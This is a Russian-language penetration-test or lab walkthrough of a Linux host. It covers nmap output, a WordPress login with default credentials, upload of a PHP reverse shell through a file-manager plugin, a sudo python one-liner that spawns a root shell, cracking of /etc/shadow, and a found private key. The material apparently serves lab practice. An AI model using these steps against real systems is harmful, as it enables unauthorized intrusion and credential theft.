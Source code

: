 # Linux
## 10.x.2.10
```
Nmap scan report for 10.18.2.10
Host is up (0.0080s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    nginx 1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Видим открытый ssh, mysql и http сервер. Открыв его в браузере видим стандартный сайт WordPress. Идем в `/wp-admin`, пробуем удачу с `admin:admin` и у нас выходит. Пробегаемся по менюшкам и самым необычным является плагин WP FileManager, который позволяет загрузить на сервер php reverse shell. Получив reverse shell, запускаем linpeas, откуда находим в sudoers весьма занимательную строчку:
```
/etc/sudoers:www-data ALL=(ALL:ALL) NOPASSWD: /usr/bin/python
``` 
То есть, мы можем запустить python от root. Недолго думая запускаем `sudo python -c 'import pty; pty.spawn("/bin/sh")'` и получаем права root.

###  Хеши и пароли
По `/etc/passwd` и `/etc/shadow` с помощью John получаем пароль от admin: `John316`. 

### Ключи...
Гуляя по системе находим необычный файл `/home/cadm/wp-file-manager/cloud.pem`. Там приватный RSA ключ. Так же у этого же пользователя есть `.ssh/authorized_keys`. Пробуем `ssh-keygen -y -e -f` и убеждаемся, что эта пара ключей до скончания времен.

## 10.x.2.11
```Nmap scan report for 10.18.2.12
Host is up (0.0011s latency).
Not shown: 985 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
79/tcp    open  finger
106/tcp   open  pop3pw
110/tcp   open  pop3
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
```
